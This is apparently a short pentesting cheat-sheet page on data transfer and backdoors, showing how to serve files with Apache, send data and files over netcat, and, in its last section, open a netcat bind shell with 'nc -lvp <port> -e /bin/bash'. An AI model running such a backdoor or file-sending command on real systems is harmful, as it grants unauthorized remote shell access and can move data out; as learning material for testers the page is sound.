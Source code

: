 ```yaml
---
title: Data transfer and backdoors
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - server
  - backdoors
---
```


# Data transfer and backdoors

## Data transfer

### Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
service apache2 start
```


### Netcat

On the server side:

```bash
#data will be printed on screen
nc -lvp <port>  
```

On the client side:

```bash
echo “hello” | nc -v <ip> <port>
```


**Netcat: Transfer data and save it in a file**

On the server side:

```bash
# Data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
echo “hello” | nc -v <ip> <port>
```

**Netcat Transfer file and save it**

On the server side:

```bash
# Received data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
cat tobesentfiel.txt | nc -v <ip> <port>
```



## Backdoors

### Netcat shell

On the server side:

```bash
nc -lvp <port> -e /bin/bash
```


